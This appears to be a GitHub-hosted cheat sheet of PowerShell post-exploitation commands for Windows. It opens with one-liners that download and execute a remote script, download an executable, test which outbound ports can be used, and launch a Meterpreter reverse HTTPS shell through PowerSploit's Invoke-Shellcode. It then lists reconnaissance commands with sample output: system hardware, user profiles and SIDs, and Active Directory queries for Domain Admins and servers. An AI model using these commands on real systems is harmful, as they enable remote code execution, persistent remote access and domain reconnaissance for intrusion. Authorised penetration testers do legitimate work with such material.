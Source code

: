 <!-- Code for collapse and expand -->
<script type="text/javascript"> 
$(document).ready(function() { 
$('div.view').hide(); 
$('div.slide').click(function() {
$(this).next('div.view').slideToggle('fast'); 
return false; 
}); 
}); 
</script>

# Windows Powershell Commands and Scripts for Post Exploitation

# One liners

**Download and Execute Remote Powershell Script**

```
iex (New-Object Net.WebClient).DownloadString("http://host/file.txt")
```

**Download and Save File**

```
(new-object System.Net.WebClient).Downloadfile('http://host/file.exe', 'file.exe')
```

**Enumerate Allowed Outbound Ports 1-1024 via [securitypadawan.blogspot.com](http://securitypadawan.blogspot.com/2013/04/quickly-determine-allowed-outbound-ports.html)**

```
$ErrorActionPreference = "silentlycontinue"; 1..1024 | % {$req = [System.Net.WebRequest]::Create("http://letmeoutofyour.net:$_"); $req.Timeout = 600; $resp = $req.GetResponse(); $respstream = $resp.GetResponseStream(); 
$stream = new-object System.IO.StreamReader $respstream; $out = $stream.ReadToEnd(); if ($out.trim() -eq "w00tw00t"){echo "$_ Allowed out"}}
```

**Reverse Shell Using [PowerSploit's Invoke-Shellcode](https://github.com/mattifestation/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1)**

```
Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.1.10 -Lport 443 -Force
```

----

# Commands with Sample Output
## Hardware
### Get BIOS Information
 * **Command with arguments**: `gwmi win32_bios`
 * **Description**: Retrieves BIOS information including system serial number.
 * **Output**:
   * <div class="slide" style="cursor: pointer;"> **Windows 7:** Show/Hide</div><div class="view"><code>PS C:\Users\johndoe> gwmi win32_bios<br>SMBIOSBIOSVersion : 6.00<br>Manufacturer      : Phoenix Technologies LTD<br>Name              : PhoenixBIOS 4.0 Release 6.0<br>SerialNumber      : VMware-56 4d 9b 0f 26 ba 8c f9-6e 7a 1e 33 5d 3c f0 dc<br>Version           : INTEL  - 6040000</code></div> 
   
### Get Drive Information
 * **Command with arguments**: `[System.IO.DriveInfo]::GetDrives()`
 * **Output**:
   * <div class="slide" style="cursor: pointer;"> **Windows 7:** Show/Hide</div><div class="view"><code>PS C:\Users\johndoe> [System.IO.DriveInfo]::GetDrives()<br><br>Name               : C:\<br>DriveType          : Fixed<br>DriveFormat        : NTFS<br>IsReady            : True<br>AvailableFreeSpace : 55568087552<br>TotalFreeSpace     : 55568087552<br>TotalSize          : 159876850304<br>RootDirectory      : C:\<br>VolumeLabel        : <br><br>Name               : D:\<br>DriveType          : CDRom<br>DriveFormat        : <br>IsReady            : False<br>AvailableFreeSpace : <br>TotalFreeSpace     : <br>TotalSize          : <br>RootDirectory      : D:\<br>VolumeLabel        : <br><br>Name               : G:\<br>DriveType          : Removable<br>DriveFormat        : <br>IsReady            : False<br>AvailableFreeSpace : <br>TotalFreeSpace     : <br>TotalSize          : <br>RootDirectory      : G:\<br>VolumeLabel        : <br><br>Name               : V:\<br>DriveType          : Network<br>DriveFormat        : NTFS<br>IsReady            : True<br>AvailableFreeSpace : 259182640616<br>TotalFreeSpace     : 259182640616<br>TotalSize          : 827361812256<br>RootDirectory      : V:\<br>VolumeLabel        : TestMappedDrive</code></div> 

## User Information
### Display Username, SID, Last Used
 * **Command with arguments**: `gwmi win32_userprofile | select -unique @{name="Name";expression={$_.__server}},@{name="SID";expression={$_.sid}},@{name="LastUseTime";expression={$_.converttodatetime($_.lastusetime)}},localpath | ft -auto`
 * **Description**: Retrieves information about system users.
 * **Output**:
   * <div class="slide" style="cursor: pointer;"> **Windows 7:** Show/Hide</div><div class="view"><code>PS C:\Users\johndoe> gwmi win32\_userprofile | select -unique @{name="Name";expression={$\_.\_\_server}},@{name="SID";expressi<br>on={$\_.sid}},@{name="LastUseTime";expression={$\_.converttodatetime($\_.lastusetime)}},localpath | ft -auto<br><br>Name&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;SID&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;LastUseTime&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;localpath<br>----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;---&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;-----------&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;---------<br>WIN-244VDGE5OGH&nbsp;S-1-5-21-1319606305-3131390644-2280705280-1000&nbsp;4/13/2012&nbsp;7:52:02&nbsp;PM&nbsp;C:\Users\johndoe<br>WIN-244VDGE5OGH&nbsp;S-1-5-20&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;C:\Windows\ServiceProfiles\Netwo...<br>WIN-244VDGE5OGH&nbsp;S-1-5-19&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;C:\Windows\ServiceProfiles\Local...<br>WIN-244VDGE5OGH&nbsp;S-1-5-18&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;C:\Windows\system32\config\syste...</code></div> 
   
### Translate SID to Username
 * **Command with arguments**: `((New-Object System.Security.Principal.SecurityIdentifier("S-1-5-19")).translate([System.Security.Principal.NTAccount])).value`
 * **Output**:
   * <div class="slide" style="cursor: pointer;"> **Windows 7:** Show/Hide</div><div class="view"><code>PS C:\Users\johndoe> ((New-Object System.Security.Principal.SecurityIdentifier("S-1-5-21-1319606305-3131390644-2280705280-<br>1000")).translate([System.Security.Principal.NTAccount])).value<br>WIN-244VDGE5OGH\johndoe</code></div> 
   
 ## Using the PowerShell Active Directory Modules
 ### Via https://www.trustedsec.com/uncategorized/powershell-reconnaissance/
 ### Setting Credentials 
 * **Command with arguments**: `$cred = Get-Credential`
 * **Notes**: These following commands require the Powershell Active Directory Modules to be installed. These can be downloaded for Win7 [here] (http://www.microsoft.com/en-us/download/details.aspx?id=7887) 
   
 ### Query to List "Domain Admins" 
 * **Command with arguments**: `Get-ADGroupMember -Credential $cred -server pwnt.com "Domain Admins"`
 * **Output**:
   * <div class="slide" style="cursor: pointer;"> **Windows 7:** Show/Hide</div><div class="view"><code>distinguishedName : CN=Administrator,CN=Users,DC=pwnt,DC=com<br>name              : Administrator<br>objectClass       : user<br>objectGUID        : 1fd60ff8-07a4-4c6e-9a1e-7cd0d7bb97db<br>SamAccountName    : Administrator<br>SID               : S-1-5-21-2027135834-1792351174-2509185371-500</code></div> 
   
 ### Enumerate All Servers on Domain" 
 * **Command with arguments**: `Get-ADComputer -Credential $cred -server pwnt.com -LDAPFilter "(&(objectCategory=computer)(opera
tingSystem=*Server*))" |select name`
 * **Output**:
   * <div class="slide" style="cursor: pointer;"> **Windows 7:** Show/Hide</div><div class="view"><code>name<br>----<br>PWNT-DC<br>
Exchange1<br>
SharePoint1</code></div> 